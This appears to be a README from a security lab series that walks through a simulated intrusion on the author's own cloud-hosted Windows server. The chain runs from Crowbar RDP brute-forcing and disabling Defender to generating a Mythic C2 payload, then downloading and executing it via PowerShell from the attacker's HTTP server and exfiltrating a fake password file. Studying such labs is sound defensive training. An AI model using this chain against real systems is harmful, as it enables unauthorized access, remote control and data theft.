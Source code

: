 # Day-21-Simulating-a-Brute-Force-Attack-with-Mythic-C2

In today’s guide, we will dive into an exciting exercise where we perform a brute force attack on a Windows server and generate our own Mythic agent to establish a Command and Control (C2) session. For this demonstration, we’ll use **Kali Linux**, **Mythic C2**, and a **Windows Server** hosted on Vultr’s cloud platform. By the end, you’ll have a complete walkthrough of the attack phases—from brute-forcing a password to executing payloads on a compromised Windows machine.

## Attack Phases

The guide is divided into six attack phases:

1. **Initial Access**
2. **Discovery**
3. **Defense Evasion**
4. **Execution**
5. **Command & Control**
6. **Exfiltration**

> **Disclaimer**: This tutorial is for educational purposes only. Do NOT attempt this on any system you don’t have permission to access. Engaging in unauthorized hacking activities can lead to legal consequences.

---

## Setting Up for the Attack

Before jumping into the action, let’s set up our environment. I’m using **Vultr** to host a Windows server, but you can use any cloud platform.

### Step 1: Create a Fake File on Windows Server

1. Log in to your Vultr account and open the Windows Server console.
2. Create a file called `passwords.txt` on the server’s desktop.
3. Write a fake password (e.g., `SuperSecret123!`) to simulate sensitive information.
4. Change the server password via Group Policy, reducing the minimum password character limit to 5, and update your password.

---

## Attack Walkthrough

### Phase 1: Initial Access — Brute Force Attack Using Kali Linux

#### Step 1: Setting Up the Target — Fake Password File

1. Log in to your Windows Server and create a file called `passwords.txt` on the desktop.
2. Write a fake password (e.g., `SuperSecret123!`).
3. Update the server’s password by allowing shorter passwords (minimum 5 characters).

#### Step 2: Prepare a Custom Wordlist in Kali Linux

1. Navigate to the wordlist directory:
    ```bash
    cd /usr/share/wordlists
    ```
2. Use the first 50 lines of the `brute.txt` wordlist to create a smaller list:
    ```bash
    head -50 brute.txt > /home/kali/aurora-wordlist.txt
    ```
3. Edit the wordlist and insert the real password for proof of concept:
    ```bash
    nano /home/kali/aurora-wordlist.txt
    ```

#### Step 3: Brute Force the Windows RDP Login

1. Install Crowbar, a brute-force tool for RDP:
    ```bash
    sudo apt-get install -y crowbar
    ```
2. Run Crowbar to brute force the RDP login:
    ```bash
    crowbar -b rdp -u Administrator -C /home/kali/brute.txt -s [Windows-Server-IP]/32
    ```

### Phase 2: Discovery — Gathering Information on the Compromised Server

1. RDP into the Windows Server using `xfreerdp`:
    ```bash
    xfreerdp /u:Administrator /p:[Brute-Forced-Password] /v:[Windows-Server-IP]:3389
    ```
2. Execute basic discovery commands:
    ```bash
    whoami
    ipconfig
    net user
    net group
    ```

### Phase 3: Defense Evasion — Disabling Windows Defender

1. Open Windows Security and go to **Virus & Threat Protection**.
2. Turn off **Real-time protection**.

### Phase 4: Execution — Deploying the Mythic C2 Agent

#### Step 1: Install the Apollo Agent in Mythic

1. Install the Apollo agent:
    ```bash
    ./mythic-cli install GitHub https://github.com/MythicAgents/Apollo.git
    ```

#### Step 2: Install the HTTP C2 Profile

1. Install the HTTP C2 Profile:
    ```bash
    ./mythic-cli install GitHub https://github.com/MythicC2Profiles/http
    ```

#### Step 3: Generate the Payload

1. In Mythic’s GUI, generate a new payload for Windows using the HTTP C2 profile.

#### Step 4: Download the Payload via SSH

1. Download the payload with `wget`:
    ```bash
    wget [payload-url] --no-check-certificate
    ```

#### Step 5: Host the Payload on an HTTP Server

1. Serve the payload using Python HTTP server:
    ```bash
    python3 -m http.server 9999
    ```
2. Allow traffic through the firewall:
    ```bash
    sudo ufw allow 9999
    ```

#### Step 6: Download and Execute the Payload on Windows Server

1. Download the payload using PowerShell:
    ```powershell
    Invoke-WebRequest -Uri http://[Mythic-Server-IP]:9999/svc-aurora.exe -Outfile "C:\Users\Public\downloads\svc-aurora.exe"
    ```

2. Execute the payload:
    ```powershell
    .\svc-aurora.exe
    ```

### Phase 5: Command & Control — Establishing a C2 Session

1. Confirm the callback in Mythic’s GUI.
2. Interact with the compromised server using Mythic.

### Phase 6: Exfiltration — Stealing the Fake Password File

1. Download the fake file using Mythic:
    ```bash
    download C:\Users\Administrator\Documents\passwords.txt
    ```

---

## Conclusion: Power and Responsibility

While this attack scenario demonstrates the power of tools like Mythic C2, remember to use this knowledge ethically and responsibly. Always have explicit permission before testing any system.

In the next blog, we’ll focus on defensive measures to detect and monitor Mythic C2 activities. Stay tuned!

---

### Safety Disclaimer

This guide is designed for educational purposes. Unauthorized access to computer systems is illegal and unethical. Use these skills to secure systems, not exploit them.


